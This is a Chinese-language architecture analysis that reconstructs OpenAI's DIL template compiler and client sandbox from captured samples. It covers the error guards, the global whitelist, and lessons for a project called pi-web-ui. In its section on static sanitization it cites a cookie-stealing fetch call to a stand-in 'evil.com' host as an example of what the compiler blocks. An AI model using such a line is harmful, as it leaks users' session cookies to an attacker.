

# OpenAI DIL 编译器与客户端运行时架构拆解

> 本文基于仓库中抓包提取的 68 个真实样本（[dil/](../../dil/) 下的 `.source.md` 原始模板与 `.formatted.js` 编译产物），直接还原 OpenAI ChatGPT Intelligent UI (DIL) 的工程设计。

---

## 1. 一张图看懂 DIL 的端到端架构

OpenAI 的 DIL（Dynamic Interface Language）不是让大模型直接写 HTML/React 去操作网页，而是一套 **“模型写轻量混合模板 $\rightarrow$ 服务端实时编译为受限 JS $\rightarrow$ 客户端沙箱执行并映射为原生组件”** 的三段式管线：



---

## 2. 为什么用“服务端编译（Compile）”而不是“客户端解释（Interpret）”？

如果只看语法，DIL 很像模板语言；但 OpenAI 没有让客户端直接去解释执行模板字符串，而是由服务端把模板编译成标准 JavaScript 代码（`metadata.model_dil_v2.code`）下发。核心原因有四个：

### 2.1 零成本复用宿主 JS 引擎的表达式求值能力
大模型在 DIL 的 `{...}` 里写的不是简单的变量名，而是**任意的纯数据 JavaScript 表达式**：
- 动态构造数组：`{#each Array.from({length: 8}, (_, i) => i) as c}`（[U02-M4.source.md](../../dil/U02-M4.source.md#L25)）
- 算术与三元表达式：`x={30 + c * 34}`、`fill={c % 2 === 0 ? "#83b4e2" : "#abcbed"}`
- 格式化与模板字符串：`m.p.toFixed(1)`、``width={`${m.p}%`}``（[L01-M30.formatted.js](../../dil/L01-M30.formatted.js#L74-L90)）
- 多语句事件回调：`onChange={v => { setChoice(v); setRevealed(false) }}`（[L08-M5.source.md](../../dil/L08-M5.source.md#L206)）

如果走客户端解释器（Interpreter）路线，Web、iOS、Android 每个端都得自己手写一套支持闭包、高阶函数和算术运算的脚本解释器。**服务端直接编译成合法 JS 后，Web 端直接用 V8、iOS/macOS 端直接用系统内置的 `JavaScriptCore` 执行即可**。

### 2.2 把“流式烂摊子（Streaming Recovery）”留在服务端
模型逐 Token 输出时，源码在 99% 的时间里都是**语法残缺的**（比如 `<box padding={3` 还没闭合，或者 `{#if choice ===` 剛写了一半）。
把编译器放在服务端，服务端可以在每个流式 chunk 到达时做容错补全，只把**语法 100% 合法、可立即运行的 JS 代码**推给客户端。所有客户端都不需要关心流式语法修复，而且语法升级永远不需要等 App 发版。

### 2.3 编译期 AST 安全审计（Static Sanitization）
既然允许模型写 JS 表达式，怎么防止模型写出 `fetch("https://evil.com?cookie=" + document.cookie)` 或 `while(true){}`？
因为经过了服务端编译器，编译器在解析 `{...}` 内的 JS AST 时，可以直接做**静态白名单校验**：只允许字面量、局部变量、纯计算属性访问以及 `DIL.*` / `GenUI.*` 调用，任何未授权的全局标识符在编译阶段就会被直接拦截。

### 2.4 静态文本抽离（Constant Pool 优化）
对比 [L08-M5.source.md](../../dil/L08-M5.source.md) 与 [L08-M5.formatted.js](../../dil/L08-M5.formatted.js#L21-L45) 可以看到，编译后的 JS 代码里几乎没有原始长文本，全部变成了 `__dilConstants["0"]`、`__dilConstants["1"]`：
- 静态文字全部被抽离到同级的 `constants` JSON 字典中（[L08-M5.data.json](../../dil/L08-M5.data.json)）。
- 这样在流式输出长段落时，**JS 代码结构几乎不用变，只需要增量追加 `constants` 字典**，大幅降低了重编译与传输开销。

---

## 3. 编译器到底干了什么？（源码 vs 编译产物逐行对照）

把模型写的原始输出（`.source.md`）和服务端编译出的 JS（`.formatted.js`）放在一起对比，DIL 编译器的 **6 条核心转换规则**非常清晰：

### 规则 1：整条消息统一编译为单棵 `__dil.jsx` 树（包含普通 Markdown）
一旦某条回复启用了 DIL，**不是只有 `<box>` 部分被编译，而是整条消息的普通 Markdown 段落、标题、列表也全部被编译成了 `__dil.jsx` 调用**（见 [L08-M5.formatted.js](../../dil/L08-M5.formatted.js#L21-L75)）：

```text
// [编译前] 模型写的普通 Markdown + UI 标签混排：
### 1. 路由表规则
- 第一条：`192.168.1.0/24`
<box padding={3}>...</box>
```
$$\Downarrow \text{服务端编译}$$
```javascript
// [编译后] 全部变成统一的组件原语调用：
__dil.jsx("title", { size: "lg" }, __dilConstants["14"]),
__dil.jsx("list", { marker: "bullet" },
  __dil.jsx("list-item", null,
    __dil.jsx("text", null, __dilConstants["16"], __dil.jsx("code", null, __dilConstants["17"]))
  )
),
__dil.jsx("box", { padding: 3 }, ...)
```
> **特例（代码块挖空）**：正文里的多行代码块（```` ```python ... ``` ````）不会放进 DIL 树里渲染，而是被编译器替换成一个占位节点 `__dil.jsx("__chatgptClientDefinedWidget", { key: "cdw:0", invocationId: ... })`（见 [L08-M5.formatted.js](../../dil/L08-M5.formatted.js#L116-L120)），交给网页原本的富功能代码编辑器组件去接管。

### 规则 2：`{@body}` 状态声明提升 + 自动注入持久化 `key`
模型可以在消息任意位置（比如第 200 行卡片开头）写 `{@body ...}`，编译器会把它**提升（Hoist）到整个渲染函数的最顶部**，并自动补上变量名作为持久化 `key`（见 [L08-M5.source.md](../../dil/L08-M5.source.md#L201) $\rightarrow$ [L08-M5.formatted.js](../../dil/L08-M5.formatted.js#L16-L17)）：

```text
// [编译前] 模型只写初始值：
{@body const [choice, setChoice] = DIL.useState("B")}
{@body const [revealed, setRevealed] = DIL.useState(false)}
```
$$\Downarrow \text{服务端编译}$$
```javascript
// [编译后] 提升到函数顶部，并自动注入 { key: "变量名" }：
const [choice, setChoice] = DIL.useState("B", { key: "choice" });
const [revealed, setRevealed] = DIL.useState(false, { key: "revealed" });
```
- **为什么要注入 `key`？** 因为客户端会把这个 `key` 对应的状态实时同步回服务端消息的 `metadata.view_state`（如 `{"root": {"choice": "B", "revealed": true}}`）。用户刷新网页或换台电脑打开历史对话，之前选中的单选框和展开的答案状态依然还在。

### 规则 3：Svelte 风格控制流（`{#if}` / `{#each}`）降级为 JS 表达式
模型用闭合清晰的 Svelte 语法写分支和循环，编译器将其还原为标准 JS 三元运算与 `.map()`（见 [L06-M14.source.md](../../dil/L06-M14.source.md#L15-L23)）：

```text
// [编译前]
{#each [{s:"Inbox",d:"待分类"}, {s:"Done",d:"完成"}] as item, i}
  <text>{item.s}</text>
{/each}

{#if revealed}
  <box>答案解析</box>
{/if}
```
$$\Downarrow \text{服务端编译}$$
```javascript
// [编译后]
__dilSafe(
  () => [{s:"Inbox",d:"待分类"}, {s:"Done",d:"完成"}].map((item, i) =>
    __dilSafe(() => __dil.jsx("text", null, __dilSafe(() => item.s, null)), null)
  ),
  [] // 如果数组求值报错，回退为空数组 []
),

__dilSafe(() => revealed, false)
  ? __dil.jsx("box", null, "答案解析")
  : null
```

### 规则 4：细粒度防崩护甲（`__dilSafe`）
每个编译文件的第 1 行都固定注入同一个辅助函数：
```javascript
function __dilSafe(evaluate, failureValue) {
  try { return evaluate(); } catch { return failureValue; }
}
```
编译器在**每一个动态属性、每一个条件判断、每一个循环体和每一次子表达式求值**外层都套上了 `__dilSafe(fn, fallback)`：
- 条件判断失败 $\rightarrow$ 回退为 `false`
- 数组循环失败 $\rightarrow$ 回退为 `[]`
- 节点或属性计算失败 $\rightarrow$ 回退为 `null`

这保证了**哪怕模型在某一行写出了 `undefined.foo` 的 bug，也只是那一个文字或图标不显示，整张卡片和整条聊天记录绝对不会白屏崩溃**。

### 规则 5：小写 UI 原语 vs 大写宿主异步组件分流
编译器根据标签首字母大小写，生成两种截然不同的调用目标（见 [L01-M30.formatted.js](../../dil/L01-M30.formatted.js#L26-L115)）：
- **小写标签（如 `<box>`、`<button>`、`<svg>`）** $\rightarrow$ 编译为**字符串字面量** `__dil.jsx("box", ...)`。代表纯前端 UI 布局原语。
- **大写标签（如 `<Cite>`、`<Link>`、`<Entity>`、`<AsyncImage>`）** $\rightarrow$ 编译为**外部变量引用** `__dil.jsx(AsyncImage, { query: "...", __resolutionId: __dilConstants["3"] })`。代表需要宿主客户端配合后端搜索/校验的富媒体组件（数据由 `appData.opGenui.componentResults[__resolutionId]` 异步注入）。

### 规则 6：自动生成纯文本退化版（`fallbackMarkdown`）
编译器在生成 `code` 的同时，会把所有 `<box>`、`<radio>`、`<grid>` 等 UI 标签剥离并转化为纯 Markdown 列表/段落，存入 `metadata.model_dil_v2.fallbackMarkdown`。当客户端不支持 DIL、用户点击“复制全文”、或者把历史消息重新喂回给模型上下文时，直接使用这份干净的纯 Markdown。

---

## 4. 客户端如何安全执行下发的 JS？（不碰 DOM 的三道防线）

既然客户端要执行服务端下发的 `model_dil_v2.code`，它是怎么做到安全隔离的？会把自己聊天窗口的 DOM 节点传给这段代码去直接操作吗？

**答案是：绝不传入真实 DOM 节点。DIL 代码在客户端只是一个“产出虚拟节点树（VNode）的纯函数”。**

客户端的安全架构由以下三道防线组成：

### 第一道防线：只返回虚拟树（Virtual UI Tree），由宿主掌控真实渲染
仔细看 `model_dil_v2.code` 的入口：
```javascript
DIL.render(
  __dil.jsx(() => {
    // 状态与计算...
    return __dil.jsx("box", { padding: 3 },
      __dil.jsx("button", { onClick: () => setRevealed(true) }, "检查答案")
    );
  }, { key: "body:2" })
);
```
1. 这段代码里**没有任何 DOM API 调用**。`__dil.jsx(type, props, ...children)` 本质上就是受控版的 `React.createElement`。
2. 当它执行完毕，产生的是一个**纯数据的虚拟组件树描述（VNode）**。
3. 宿主客户端（ChatGPT Web 的 React 主应用，或 iOS App）拿到这棵虚拟树后，用自己的**白名单组件字典（Component Registry）**去渲染：
   - 字典里有 `"box"` $\rightarrow$ 挂载宿主自己写的 `<Box>` 组件（样式严格受限于宿主的 Tailwind/CSS Token，如 `surface-secondary`）；
   - 字典里有 `"button"` $\rightarrow$ 挂载宿主的 `<Button>` 组件；
   - 字典里没有的标签（假如模型写了个 `"script"` 或 `"iframe"`）$\rightarrow$ 直接丢弃不渲染。

### 第二道防线：锁死执行上下文（Capability-based Sandbox）
通过对仓库中全部 68 个样本的 AST 扫描，编译后的 JS 代码访问的外部自由变量（Globals）只有固定的一组白名单：
- **核心运行时**：`DIL`（含 `render`, `useState`, `useConstants`, `useAppData`）、`__dil`（含 `jsx`, `Fragment`）
- **宿主动作门卫**：`GenUI`（含 `issueNewTurn`, `openUrl`）
- **5 个宿主异步组件标识符**：`Cite`, `Link`, `Entity`, `AsyncImage`, `AsyncImageGroup`
- **标准无副作用 JS 内置对象**：`Array`, `Math`, `Object`, `String`, `Number`, `JSON`

在客户端执行这段代码时，只需将其置于受限沙箱（如 Web 端的受限 Function Compartment / ShadowRealm / QuickJS，或 iOS 端的独立 `JSContext`），把 `window`、`document`、`fetch`、`localStorage` 全部屏蔽为 `undefined`。代码既读不到页面 Cookie，也发不出任何网络请求。

### 第三道防线：所有外部副作用必须走 `GenUI.*` 门卫函数
沙箱内的代码如果想要和外部世界交互（除了修改自己的 `DIL.useState` 局部状态外），唯一的合法出口就是调用宿主注入的 `GenUI` 对象：
- **`GenUI.openUrl("https://...")`**：由宿主拦截，宿主可以校验协议合法性、弹出外部链接确认框。
- **`GenUI.issueNewTurn("我使用小米 Pad 测试结果：...")`**（见 [L12-M24.source.md](../../dil/L12-M24.source.md#L69)）：由宿主拦截，把用户在表单里勾选和填写的参数拼成一段话，作为用户的下一条消息发送给聊天流。

---

## 5. 对我们自研 Web UI（如 `pi-web-ui`）的工程启示

理解了 OpenAI DIL 的完整编译与运行机制后，我们在自己的开源项目（如 `pi-web-ui`）中实现类似能力时，可以做出非常清醒的取舍：

| OpenAI DIL 的设计点 | 为什么 OpenAI 要这么做 | 我们在 `pi-web-ui` 中该怎么取舍 |
|---|---|---|
| **Svelte 控制流 (`{#if}`/`{#each}`) + JSX 属性 + `useState` + 参数化 SVG** | 括号层级浅、模型生成准确率极高、画架构/内存图极省 Token | **100% 吸收**：这套语法是经过大模型实战检验的甜点设计 |
| **受控原语白名单 (`box`/`row`/`grid`) + `GenUI.issueNewTurn` 门卫** | 防止模型写乱页面样式，同时打通“UI 交互 $\rightarrow$ 下一轮对话”闭环 | **100% 吸收**：直接映射到 `shadcn/ui` 组件与 `pi-web-ui` 的消息发送接口 |
| **表达式级 `__dilSafe` 容错** | 防止流式半截代码或模型小 bug 搞崩整个聊天页 | **100% 吸收**：每个表达式求值单独 `try/catch` 返回默认回退值 |
| **把整条消息的普通 Markdown 也编译成 `__dil.jsx`** | OpenAI 要在 Web/iOS/Android 全平台统一自研渲染管线 | **无需照搬**：我们用 Fenced Code Block（```` ```genui ````）局部接管 UI 块即可，外层继续交给现成的 `streamdown` 渲染 |
| **服务端编译下发 JS + 抽离 `constants` 字典** | 服务端统一扛下多端兼容与流式修复 | **可简化到前端完成**：`pi-web-ui` 只有 Web 端，保持 `mirror-server.ts` 薄传输，直接在前端 `src/web/` 收到 ```` ```genui ```` 块时做轻量编译/AST 求值即可 |
